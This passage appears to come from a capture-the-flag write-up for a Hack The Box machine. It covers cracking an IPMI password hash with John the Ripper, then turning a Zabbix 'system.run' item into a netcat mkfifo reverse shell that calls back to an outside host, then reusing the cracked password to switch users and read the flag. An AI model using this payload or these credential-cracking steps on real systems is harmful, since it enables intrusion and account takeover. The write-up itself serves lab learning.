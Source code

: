 ```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zabbixlogin 
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.129.99.116 Administrator)
1g 0:00:00:02 DONE (2021-11-15 10:10) 0.4201g/s 3139Kp/s 3139Kc/s 3139KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed

└─$ john  zabbixlogin --show 
10.129.99.116 Administrator:ilovepumkinpie1

1 password hash cracked, 0 left
```
- So now we have the creds [ Administrator : ilovepumkinpie1 ]
 
## Initial Foothold

- I researched for a bit and found this intresting
  - https://stackoverflow.com/questions/24222086/how-to-run-command-on-zabbix-agents

- After moving around the website I figured out that ` add items `  was vulnerable

![image](https://user-images.githubusercontent.com/56447720/141724103-0b775ae7-12af-4136-a0fd-b257ce77ba03.png)

- The payload 
  - system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9999 >/tmp/f &,nowait] 

 ![image](https://user-images.githubusercontent.com/56447720/141724345-1db0f62e-b04c-44b4-8381-faf76f4510be.png)


- Set up a nc listener and get the shell
  
```bash
└─$ nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.99.116] 40614
sh: 0: can't access tty; job control turned off
$ whoami     
zabbix
```
- As there were no SSH ports open we don't get any stabalize shell, let's get work with this shell
 
## Get User flag / escalting user privileges
 
```bash
# Use the zabbix login creds to get ipmi-svc user

zabbix@shibboleth$ su ipmi-svc
password : ilovepumkinpie1

ipmi-svc@shibboleth$ cat /home/ipmi-svc/user.txt
<--SNIP-->
 
```
